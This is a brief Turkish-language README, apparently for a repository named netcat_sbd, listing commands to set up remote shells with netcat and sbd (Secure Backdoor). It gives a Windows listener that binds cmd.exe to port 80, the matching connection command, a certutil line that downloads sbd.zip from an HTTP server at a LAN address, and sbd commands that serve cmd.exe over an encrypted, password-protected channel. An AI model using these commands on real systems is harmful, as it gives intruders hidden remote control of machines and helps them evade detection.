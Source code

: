 # netcat_sbd
# NETCAT İLE REVERSE SHELL /n
Kali Linux : netcat -vvn <ip> <port>
Windows  : netcat.exe -lvp 80 -e cmd.exe

Netcat herhangi bir şifreleme ve IP kısıtlaması gibi bir işlem yapmadığı için tehlikelidir
Bu yüzden netcat'in ssl ve ip kısıtlaması kullanılamalıdır

# SBD (Secure Backdoor)
Şifrel SSL backdooru ve -k parametresi ile şifre verme.

Dosya aktarma certutil.exe --urlcache -f http://192.168.1.100:8000/sbd.zip sbd.zip

Windows :sbd.exe -lvp 80 -k azat -e cmd.exe
Linux      :sbd -vnn 192.168.1.106 80 -k azat 
